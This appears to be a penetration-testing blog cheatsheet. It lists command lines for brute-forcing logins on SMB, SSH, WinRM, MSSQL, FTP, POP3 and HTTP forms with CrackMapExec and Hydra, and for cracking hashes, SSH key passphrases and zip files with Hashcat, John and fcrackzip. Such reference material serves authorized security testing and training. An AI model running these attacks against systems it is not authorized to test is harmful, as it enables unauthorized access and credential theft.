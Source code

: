 ```yaml
---
layout: commands
title: Brute Force
date: 2020-08-13
preview: Cheatsheet for brute force attacking
categories: 
    - "commands"
    - "pentest"
    - "enumeration"
---
```


# Brute force services

## CrackMapExec

### SMB

SMB with username and password - Use to confirm

```bash
crackmapexec smb $TARGETIP -u 'username' -p 'password'
```

SMB known username with wordlist

```bash
crackmapexec smb $TARGETIP -u 'username' -p /path/to/file
```

SMB with user and password list

```bash
crackmapexec smb $TARGETIP -u /path/to/file -p /path/to/file
```

### SSH

SSH with username and password - Use to confirm

```bash
crackmapexec ssh $TARGETIP -u 'username' -p 'password'
```

SSH known username with wordlist

```bash
crackmapexec ssh $TARGETIP -u 'username' -p /path/to/file
```

SSH with user and password list

```bash
crackmapexec ssh $TARGETIP -u /path/to/file -p /path/to/file
```

### WinRM

WINRM with username and password - Use to confirm

```bash
crackmapexec winrm $TARGETIP -u 'username' -p 'password'
```

WINRM known username with wordlist

```bash
crackmapexec winrm $TARGETIP -u 'username' -p /path/to/file
```

WINRM with user and password list

```bash
crackmapexec winrm $TARGETIP -u /path/to/file -p /path/to/file
```

### MSSQL

MSSQL with username and password - Use to confirm

```bash
crackmapexec mssql $TARGETIP -u 'username' -p 'password'
```

MSSQL known username with wordlist


```bash
crackmapexec mssql $TARGETIP -u 'username' -p /path/to/file
```

MSSQL with user and password list

```bash
crackmapexec mssql $TARGETIP -u /path/to/file -p /path/to/file
```

## Hydra

### SSH

```bash
hydra -t 4 -l <USER> -P <PASSWORD> ssh://$TARGETIP
```

### SMB

```bash
hydra -t 4 -l <USER> -P <PASSWORD> smb://$TARGETIP
```

### POP3

```bash
hydra -t 4 -l <USER> -P <PASSWORD> pop3
```

### FTP

```bash
hydra -t 4 -l <USER> -P <PASSWORD> ftp
```

### HTTP WebDav

```bash
hydra -l webdav -P <WORDLISTS> -s 80 -f $TARGETIP http-get /webdav
```

### HTTP Form

```bash
hydra -l "user" -P <WORDLISTS> $TARGETIP http-post-form /
"/path?FormVariables=Value&:UserFormField=^USER^&PasswordFormField=^PASS^:F=MessageOnFailure" -V
```

## HTTP

See <a href="/blog/2020/08/10/http-enumeration">HTTP/S Enumeration Cheatsheet</a>


# Brute force passwords

## Password List

### Rockyou

```bash
/usr/share/wordlists/rockyou.txt
```

## Hashcat

### MD5

```bash
hashcat -m 0 -a 0 -o /path/to/results /path/to/hashfile /path/to/wordlist
```

### SHA1

```bash
hashcat -m 100 -a 0 -o /path/to/results  /path/to/hashfile /path/to/wordlist
```

Modes [https://hashcat.net/wiki/doku.php?id=hashcat](https://hashcat.net/wiki/doku.php?id=hashcat)

## John

### Hash

```bash
john --wordlist=/path/to/file /path/to/hashes
```

### Show
```bash
john --show /path/to/hashes
```

### Convert for John

Folder

```bash
/usr/share/john/
```

SSH private key

```bash
/usr/share/john/ssh2john.py id_rsa > johnhash
```

Brute force passphrase

```bash
john --wordlist=/path/to/wordlist johnhash
```

Encrypted PDF

```bash
/usr/share/john/pdf2john.pl
```

## FCrackZip

### Zip file

```bash
fcrackzip -u -D -p <WORDLIST> <FILE>
```

